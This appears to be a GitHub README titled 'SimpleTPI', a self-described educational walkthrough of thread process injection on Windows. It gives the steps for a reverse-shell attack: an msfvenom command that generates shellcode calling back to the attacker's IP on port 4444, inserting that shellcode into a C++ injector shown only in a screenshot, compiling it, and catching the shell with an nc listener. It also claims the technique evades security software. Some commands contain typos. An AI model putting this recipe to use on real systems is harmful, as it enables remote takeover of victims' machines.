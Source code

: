# SimpleTPI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..


so what is thread Process injection ? 

TPI is a technique that allows an attacker to inject code into a running process and create a new thread that will execute the injected code. The goal of the attacker with this technique is to take control of the process . This is often used hard to detection, as the injected code runs within the context of a legitimate process and "hide" into the stack, making it difficult for security software to detect. 

i will run the script by create a vm in my case is kali linux . 

in the console we type the command below

```
ifconfig
```
then take the vm ip we want to use has a "hacker" machine

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
	options=3<RXCSUM,TXCSUM>
	ether xx:xx:xx:xx:xx:xx 
	inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```

i choose to use this exploit for the reverseshell , of course you can choose any 

```
msfvenom -p windows/×64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
then we have the shell code 

and we will insert it in the line of code - ``` shellcode[] = {`here`}```

![Screenshot 2023-01-24 at 10 50 42](https://user-images.githubusercontent.com/122444563/214353717-a4f88edd-6681-48d0-bb67-f75a74b88bd6.png)


once we have the script has it shown in screenshot above 
we will change the filemode for .exe 

```cl /Tc <filename>.cpp```

change back to the vm and listen to the port we specify 
```nc -nlvp 4444```

Execute the program and our "hacker station" and we are in

<img width="552" alt="Screenshot 2023-01-24 at 13 58 20" src="https://user-images.githubusercontent.com/122444563/214379873-a32fb0de-24e1-4a36-a9fe-b880ea83f9e0.png">





